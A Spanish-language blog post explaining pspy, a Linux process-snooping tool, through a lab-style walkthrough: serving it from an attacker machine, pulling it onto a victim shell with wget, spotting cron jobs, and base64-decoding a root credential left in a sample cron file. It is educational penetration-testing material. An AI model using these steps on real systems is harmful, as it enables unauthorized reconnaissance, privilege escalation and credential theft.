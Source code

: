```yaml
---
date: 2022-04-27T22:40:05.000Z
layout: post
comments: true
title: PSPY
subtitle: 'indagación de procesos de Linux sin privilegios'
description: >-
image: >-
    http://imgfz.com/i/HkurWB5.png
optimized_image: >-
    http://imgfz.com/i/HkurWB5.png
category: ciberseguridad
tags:
  - privilegios
  - CRON
  - hacking
author: Felipe Canales Cayuqueo
paginate: true
---
```


Es una herramienta de línea de comandos diseñada para husmear en los procesos sin necesidad de permisos de root. Le permite ver los comandos ejecutados por otros usuarios, trabajos cron, etc. mientras se ejecutan.

### Transferencia

Primero desde nuestra máquina atacante nos creamos un servidor web para descargarlo desde la máquina víctima ```pspy```:

```bash
┌──(root㉿kali)-[/opt/pspy]
└─# python -m http.server     
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
-127.0.0.1 - - [10/May/2022 03:21:48] "GET / HTTP/1.1" 200 -
127.0.0.1 - - [10/May/2022 03:21:49] code 404, message File not found
127.0.0.1 - - [10/May/2022 03:21:49] "GET /favicon.ico HTTP/1.1" 404 -
10.1.1.22 - - [10/May/2022 03:23:34] "GET /pspy64 HTTP/1.1" 200 -
```

Ahora lo descargamos desde la máquina víctima:

```bash
www-data@demo:/tmp$ wget http://10.1.1.19:8000/pspy64
--2022-05-10 09:23:33--  http://10.1.1.19:8000/pspy64
Connecting to 10.1.1.19:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3078592 (2.9M) [application/octet-stream]
Saving to: 'pspy64'

pspy64                        100%[==============================================>]   2.94M  --.-KB/s    in 0.03s   

2022-05-10 09:23:33 (115 MB/s) - 'pspy64' saved [3078592/3078592]

www-data@demo:/tmp$ ls
pspy64
```

### Ejecución

Ahora procedemos a asignar los permisos correspondientes y lo ejecutamos:

```bash
www-data@demo:/tmp$ chmod +x pspy64 
www-data@demo:/tmp$ ./pspy64
```
![1](http://imgfz.com/i/kHrpMmB.png)

Al ejecutarlo podemos ver los procesos en ejecución y si seguimos bajando detectaremos tareas CRON:

![2](http://imgfz.com/i/1QnWA0M.png)

CRON es un administrador regular de procesos en segundo plano, que ejecuta procesos o guiones a intervalos regulares (por ejemplo, cada minuto, día, semana o mes). Esto significa que pueden ser utilizados de forma maliciosa para detectar archivos que puedan servir para escalar privilegios, o bien encontrar datos sensibles expuestos. Por ejemplo:

![3](http://imgfz.com/i/O2bo61d.png)

```bash
www-data@demo:/tmp$ cd ..
www-data@demo:/$ cat /usr/share/doc/examples/cron.sh

# cron.sh sample file
# 0 20 * * * /bin/goahead --parameter: LXUgcm9vdCAtcCByZnZiZ3QhIQ==

┌──(root㉿kali)-[/home/nptg]
└─# echo 'LXUgcm9vdCAtcCByZnZiZ3QhIQ==' | base64 -d; echo
-u root -p rfvbgt!!
```

En este caso se encontraron credenciales expuestas en la máquina!
